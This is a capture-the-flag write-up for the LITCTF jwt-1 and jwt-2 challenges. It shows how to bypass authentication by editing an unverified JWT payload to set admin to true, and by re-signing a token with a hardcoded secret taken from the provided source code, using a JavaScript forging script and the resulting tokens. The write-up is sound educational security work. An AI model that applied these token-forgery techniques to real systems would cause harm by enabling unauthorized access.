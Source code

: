 ```yaml
---
title: JWT ( Both Parts )
date : 2024-08-13 10:00:00 +0530
categories: [litctf , ctf]
tags: [litctf, ctf]
description: jwt-1, jwt-2
---
```


> I will be writing the solution for jwt-1 and jwt-2 in the same post because the solution is the similar.
{: .prompt-info}

## Description

**jwt-1**
I just made a website. Since cookies seem to be a thing of the old days, I updated my authentication! With these modern web technologies, I will never have to deal with sessions again.

Come try it out at http://litctf.org:31781/.

**jwt-2**
its like jwt-1 but this one is harder URL: http://litctf.org:31777/

## JWT-1

The website is a simple login page. After registering we can login and jwt token is generated.

We have to visit `/flag` to get the flag. But it will show you unauthorized if you do not have the permission.

### JWT Token

Lets examine the JWT token.

A JWT token is split into 3 parts using the `.` character. The first part is the header, the second part is the payload, and the third part is the signature. The token is base64 encoded.

I use [jwt.io](https://jwt.io/) to decode the token.

This is the payload of the given token.

```json
{
  "name": "cookie",
  "admin": false
}
```

The `admin` field is set to `false`. We need to change it to `true`.

So that is exactly what I did. I changed the `admin` field to `true` and the website gave me the updated token.

`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiY29va2llIiwiYWRtaW4iOmZhbHNlfQ.fqrKVonVIm88m4vn4Ob0ZQ8LfcEXRnKs6Omj+ELYoWg`

Using devtools I updated the token and visited `/flag` to get the flag.

We got the flag because the signature is not verified. The signature is used to verify the integrity of the token.

> `Flag: LITCTF{o0ps_forg0r_To_v3rify_1re4DV9}`

## JWT-2

In JWT we were given the source code of the website. I will highlight the interesting parts of the code below.

### Source Code Analysis

Cookie Generator

```ts
import crypto from "crypto";

const jwtSecret = "xook";
const jwtHeader = Buffer.from(
  JSON.stringify({ alg: "HS256", typ: "JWT" }),
  "utf-8"
)
  .toString("base64")
  .replace(/=/g, "");

const sign = (payload: object) => {
  const jwtPayload = Buffer.from(JSON.stringify(payload), "utf-8")
    .toString("base64")
    .replace(/=/g, "");
    const signature = crypto.createHmac('sha256', jwtSecret).update(jwtHeader + '.' + jwtPayload).digest('base64').replace(/=/g, '');
  return jwtHeader + "." + jwtPayload + "." + signature;
}
```

Cookie Signature Check

```ts
// verify signature
const expectedSignature = crypto.createHmac('sha256', jwtSecret).update(header + '.' + payload).digest('base64').replace(/=/g, '');
if (signature !== expectedSignature) {
    return res.status(403).send('Unauthorized ;)');
}
```

This time they did not forget to verify the signature. So we cannot change the payload directly without signing it using the secret key.

The problem was made very simple because the whole source code was provided.

### Token Manipulation

I usually use [`jwt_tool`](https://github.com/ticarpi/jwt_tool) for jwt token manipulation. But this time when I used it, the signed token was not accepted by the website. So I figured there was something different in their token generator.

So I used their own code to generate the token. ( I converted to js )

```js
const crypto = require('crypto');
const jwtSecret = "xook";

const jwtHeader = Buffer.from(
  JSON.stringify({ alg: "HS256", typ: "JWT" }),
  "utf-8"
)
  .toString("base64")
  .replace(/=/g, "");

const sign = (payload = { "name": "cookie", "admin": true }) => {  //PAYLOAD
  const jwtPayload = Buffer.from(JSON.stringify(payload), "utf-8")
    .toString("base64")
    .replace(/=/g, "");
  const signature = crypto.createHmac('sha256', jwtSecret).update(jwtHeader + '.' + jwtPayload).digest('base64').replace(/=/g, '');
  return jwtHeader + "." + jwtPayload + "." + signature;

}

console.log(sign()); //eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiY29va2llIiwiYWRtaW4iOnRydWV9.Pg3feBG3DxL//Judd6soWFx+YG52N2LJxVJkC5Y97lY
```

> `Flag: LITCTF{v3rifyed_thI3_Tlme_1re4DV9}`

### Why python didn't work?

Well the signature generated by the python tool was actually `better` but code which was used to generate the jwt was a lil different.

The tokens:-

```bash
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiY29va2llIiwiYWRtaW4iOnRydWV9.Pg3feBG3DxL__Judd6soWFx-YG52N2LJxVJkC5Y97lY  # python
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiY29va2llIiwiYWRtaW4iOnRydWV9.Pg3feBG3DxL//Judd6soWFx+YG52N2LJxVJkC5Y97lY  # js
```

The python code was generating the signature with `-` and `_`  and the js code was generating the signature with `+` and `/` So the signature was not matching.

What python was doing is producing the token with url-safe base64 encoding.

---

[back to index](/posts/LIT-Index/)